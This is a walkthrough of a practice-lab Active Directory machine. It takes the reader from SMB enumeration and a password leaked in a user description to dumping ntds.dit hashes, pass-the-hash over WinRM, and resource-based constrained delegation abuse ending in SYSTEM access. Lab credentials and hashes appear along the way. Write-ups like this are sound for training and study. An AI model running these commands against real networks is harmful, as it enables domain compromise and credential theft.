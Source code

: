 #Pwned #AD #Windows #Bloodhound #TGS
```IP
192.168.154.175
```
## Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.154.175 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-25 09:43:12Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125 
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125 
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
```
## SMB
As always I see SMB service open, I enumerate it with nxc tool, tinkering with different blank parameters to see if Guest account is available. In this case it seems that no shares are available:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025114625.png?raw=true)

When attempting the same enumeration with enum4linux, which automatically dumps a lot of information, it prompts the description of the users in the machine. For V.Ventz a password is disclosed as shown below:
```
enum4linux -a -u "" -p "" 192.168.154.175 && enum4linux -a -u "guest" -p "" 192.168.154.175
```

```
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                                                                                                
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god                                                                                                                         
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert                                                                                                                                     
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain                                                                                                      
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist                                                                                                                                 
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer                                                                                                                                            
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account                                                                                                                       
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin                                                                                                                                              
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin                                                                                                                                           
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer                                                                                                                                     
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin                                                                                                                                        
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist                                               index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!                                                                                                              
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458] 
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025120730.png?raw=true)

With the new credentials we gain access to SMB service. Upon examination, we see a `Password Audit` share that contains some sensitive files such as SYSTEM and ntds.dit.
```
smbclient -U 'V.Ventz' --password='HotelCalifornia194!' \\\\192.168.154.175\\'Password Audit'
```
With impacket secretsdump tool we can extract the NTLM hashes that these files contain:
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
We can try to decrypt them with hashcat but it will not work:
```
hashcat -m 1000 -w 3 -a 0 -p : --session=all — username -o ./cracked.out --outfile-format=3 ./secrets.dump.ntds /usr/share/wordlists/rockyou.txt --potfile-path ./hashcat.pot
```
## WINRM

With nxc we can spray the obtained hashes with the previous obtained users to see if any of them matches:
```
nxc winrm 192.168.154.175 -u users.txt -H hashes.txt
```
It seems like we have a hit for L.Livingstone. The next step is using the evil-winrm functionality to pass the hash for this user and gain remote access:
```
evil-winrm -i 192.168.154.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'
```
It let us in!

# PrivEsc

## Manual
Once we have remote access we should inmediately check the permissions and groups of our current user with `whoami /all` as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025132137.png?raw=true)

Unfornunately, nothing interesting shows up.
## Automated

### Bloodhound

After some unsuccessful manual enumeration, we can execute bloodhound to see if we have missed something. It seems like our current user has a GenericAll permission over the Domain.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025154635.png?raw=true)

Therefore, we can create a computer named ATTACK belonging to this domain as shown below:

```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'Password123!'
```

Next, we will modify the delegation rights of ATTACK to impersonate other users:
```
python3 rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "ATTACK$" -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
```

And now we could request a TGS ticket for this newly added computer and Administrator user:
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'Password123!' -impersonate Administrator -dc-ip 192.168.154.175
```

Export the obtained ticket with the following command:
```
export KRB5CCNAME=$PWD/Administrator.ccache
```
Those steps are shown in the image below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025165358.png?raw=true)

Now we need to assess that we have added correctly the domain to our /etc/hosts file and only then it is possible to connect with psexec with the following command:
```
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.154.175
```

And we are NT Authority\System as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025183317.png?raw=true)

Pwned!